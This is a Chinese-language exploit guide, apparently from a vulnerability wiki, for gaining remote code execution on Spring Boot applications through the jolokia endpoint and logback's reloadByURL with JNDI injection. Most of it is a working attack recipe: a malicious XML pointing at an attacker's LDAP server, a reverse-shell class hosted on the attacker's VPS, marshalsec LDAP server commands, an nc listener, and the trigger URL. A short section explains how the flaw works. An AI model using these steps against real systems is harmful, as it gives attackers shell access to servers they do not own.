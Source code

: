 # jolokia logback JNDI RCE

## 利用条件：

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过

## 利用方法：

### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。


### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `xml` 结尾的 `example.xml`  文件，内容如下：

```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```

### 步骤三：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```bash
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。

### 步骤四：架设恶意 ldap 服务

下载 [marshalsec](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/SpringBoot/jolokia%20logback%20JNDI%20RCE/marshalsec-0.0.3-SNAPSHOT-all.jar) ，使用下面命令架设对应的 ldap 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```

### 步骤六：从外部 URL 地址加载日志配置文件

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/example.xml
```
> ⚠️ 如果目标成功请求了example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

## 漏洞原理：

1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

## 漏洞分析：

​	[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

## 漏洞环境：

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env
```